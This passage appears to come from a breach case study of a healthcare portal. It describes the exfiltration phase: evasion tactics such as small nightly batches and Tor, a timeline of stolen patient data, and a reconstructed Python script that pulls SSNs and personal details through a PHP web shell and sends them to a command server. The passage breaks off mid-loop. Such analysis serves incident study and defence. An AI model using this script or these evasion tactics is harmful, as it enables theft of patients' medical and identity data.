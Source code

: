 ### Phase 6: Data Exfiltration (Days 23-50)

**Staged Extraction Strategy**:

The attacker avoided detection by:
- Small, incremental exports (50,000 records per day)
- Exports during off-peak hours (2-4 AM UTC)
- Using legitimate-looking admin queries
- Encrypting data before transfer
- Using Tor network for exfiltration

**Exfiltration Timeline**:
```mermaid
gantt
    title Data Exfiltration Timeline
    dateFormat YYYY-MM-DD
    section Patient Data
    Basic demographics (500K): 2024-07-28, 10d
    Medical histories (800K): 2024-08-07, 12d
    Insurance data (600K): 2024-08-19, 8d
    Lab results (600K): 2024-08-27, 8d
    section Credentials
    User accounts (5K): 2024-08-05, 1d
```

**Exfiltration Method**:
```python
# Attacker's exfiltration script (reconstructed)
import psycopg2
import requests
from Crypto.Cipher import AES
import base64

# Connect via backdoor
def exfiltrate_batch(offset, limit):
    sql = f"""
        SELECT patient_id, ssn, first_name, last_name, 
               date_of_birth, address, phone, email
        FROM patients
        ORDER BY patient_id
        OFFSET {offset} LIMIT {limit}
    """
    
    # Execute via backdoor
    response = requests.get(
        'https://healthportal.com/uploads/images/profile_2024_07_28_1234.php',
        params={'sql': sql},
        headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)'}
    )
    
    data = response.text
    
    # Encrypt data
    encrypted = encrypt_aes(data)
    
    # Exfiltrate via Tor
    send_to_command_server(encrypted)
    
    return len(data)

# Gradual exfiltration
total_records = 2500000
batch_size = 50000

for offset in range(0, total_records, batch_size):
```
